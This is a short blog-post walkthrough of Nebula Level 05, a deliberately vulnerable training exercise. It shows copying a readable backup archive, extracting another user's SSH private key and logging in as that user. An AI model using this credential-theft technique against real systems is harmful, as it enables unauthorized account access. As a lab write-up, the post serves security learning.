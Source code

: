 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level 05"
date: 2014-01-13 14:16:44 +0800
comments: true
categories: 
- Security
- Exercises
- Nebula
---
```


### About

Check the *flag05* home directory. You are looking for weak directory permissions

To do this level, log in as the *level05* account with the password *level05* . Files for this level can be found in /home/flag05.

<!-- more -->

### Solution

Copy the file */home/flag05/.backup/backup-19072011.tgz* in to home directory of *level05*.

extract it

``` bash
level05@nebula:~$ tar -xvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

So this should be the id key of user *flag05*, try to use `ssh` to login with user *flag05* without a password, and it successed.

``` bash
level05@nebula:~$ ssh flag05@localhost

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

flag05@nebula:~$
```